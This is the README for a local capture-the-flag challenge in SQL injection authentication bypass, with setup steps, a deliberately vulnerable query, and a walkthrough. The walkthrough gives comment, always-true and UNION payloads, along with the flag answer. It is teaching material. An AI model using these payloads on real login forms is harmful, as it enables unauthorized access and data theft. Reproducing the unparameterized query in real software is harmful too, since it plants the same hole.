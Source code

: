 # SQL Injection Challenge: Authentication Bypass

## Challenge Overview
This challenge demonstrates a SQL injection vulnerability in the login form of **SecureCorp's employee portal**.  
Your goal is to bypass authentication and retrieve the **admin password (flag)** from the database.

This guide provides step-by-step instructions for setting up, running, and exploiting the challenge using either **Docker (recommended)** or a **manual Python setup**.

---

## Challenge Details
- **Category:** Web Security  
- **Difficulty:** Easy  
- **Vulnerability Type:** SQL Injection - Authentication Bypass  
- **Flag Format:** `RAZZ{sql1_bYP4sS_MAst3r}`  

---

## Prerequisites
Before starting, ensure you have one of the following setup options available:

### Option A: Docker (Recommended)
- Docker installed  
- Basic familiarity with Docker commands  
- For Linux: sudo privileges or user added to Docker group  

### Option B: Manual Python Setup
- Python 3.11+  
- `pip` package manager  
- Basic familiarity with Python virtual environments  

---

## Step 1: Download/Clone the Challenge

### 1.1 Open Terminal/Command Prompt
- **Windows:** Command Prompt, PowerShell, Windows Terminal  
- **macOS:** Terminal or iTerm2  
- **Linux:** Terminal, GNOME Terminal, Konsole  

### 1.2 Navigate to Desired Directory

### 1.3 Clone the Repository
```git clone https://github.com/KerberoSec/Razz_Security_Internship_Assignment.git```
1.4 Navigate to Project Directory
```cd Razz_Security_Internship_Assignment```
1.5 Verify Files
```ls -la```

Expected structure:
```.
├── app.py
├── Dockerfile
├── README.md
├── requirements.txt
└── templates
    └── index.html

2 directories, 5 files
```
Step 2: Docker Setup (Recommended)
2.1 Build the Docker Image
# With sudo (if required)
sudo docker build -t sqli-challenge .

# Without sudo
docker build -t sqli-challenge .
2.2 Run the Docker Container
sudo docker run -d -p 5000:5000 --name sqli-challenge sqli-challenge
2.3 Verify Container is Running
sudo docker ps
Expected:
```CONTAINER ID   IMAGE            COMMAND          CREATED         STATUS         PORTS                    NAMES
abc123def456   sqli-challenge   "python app.py"  5 seconds ago   Up 4 seconds   0.0.0.0:5000->5000/tcp   sqli-challenge
```
2.4 Access Application
Open in your browser:
```http://localhost:5000```
Step 3: Manual Python Setup (Alternative)
3.1 Create Virtual Environment
```python -m venv venv```
# macOS/Linux
```source venv/bin/activate```

# Windows
venv\Scripts\activate
3.2 Install Dependencies
```pip install -r requirements.txt```
3.3 Run Application
```python app.py```
3.4 Access Application
```http://localhost:5000```
Step 4: Exploitation Guide
4.1 Vulnerable Code
```query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"```
4.2 Identifying Injection
Navigate to:
http://localhost:5000
4.3 Bypass Authentication
Use payload:

Username:
```admin' --```
Password:
```anything```
Resulting query:
```SELECT * FROM users WHERE username = 'admin' --' AND password = 'anything'```

4.4 Retrieve Flag
After login as admin, the flag will be displayed:
```RAZZ{sql1_bYP4sS_MAst3r}```
4.5 Alternative Payloads
Method 1: Always True
Username: admin' OR '1'='1
Password: anything
Method 2: Union Injection
Username: admin' UNION SELECT 1,password,3 FROM users WHERE username='admin' --
Password: anything
Step 5: Database Schema & Data
5.1 Schema
```CREATE TABLE users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT UNIQUE NOT NULL,
    password TEXT NOT NULL,
    is_admin INTEGER DEFAULT 0
);
```
5.2 Sample Data
```id	username	password	is_admin
1	admin	RAZZ{sql1_bYP4sS_MAst3r}	1
2	john_doe	password123	0
3	jane_smith	securepass	0
```
Step 6: Management Commands
6.1 Docker
# List containers
```sudo docker ps```

# Stop container
```sudo docker stop sqli-challenge```

# Start container
```sudo docker start sqli-challenge```

# Remove container
```sudo docker rm sqli-challenge```

# Remove image
```sudo docker rmi sqli-challenge```

# View logs
```sudo docker logs sqli-challenge```

6.2 Python Virtual Env
# Deactivate
```deactivate```

# Reactivate
```source venv/bin/activate   # macOS/Linux
venv\Scripts\activate      # Windows
```
# Reinstall dependencies
```pip install --force-reinstall -r requirements.txt```
Step 7: Troubleshooting
Port already in use: Use another port or stop conflicting service.

Docker permission denied: Add user to docker group or use sudo.

Module not found: Ensure venv activated and run pip install -r requirements.txt.

Database errors: Check file permissions for SQLite DB file.

Step 8: Learning Objectives
Understand SQL injection in login forms

Exploit authentication bypass

Learn input validation & parameterized queries

Recognize security risks of unsanitized SQL queries

Step 9: Security Best Practices
Always use parameterized queries

Validate & sanitize user inputs

Implement proper error handling

Use least privilege DB accounts

Regularly update dependencies

Deploy a Web Application Firewall (WAF)

Step 10: Additional Resources
OWASP SQL Injection Prevention Cheat Sheet
PortSwigger SQL Injection Tutorial
Flask Security Guidelines
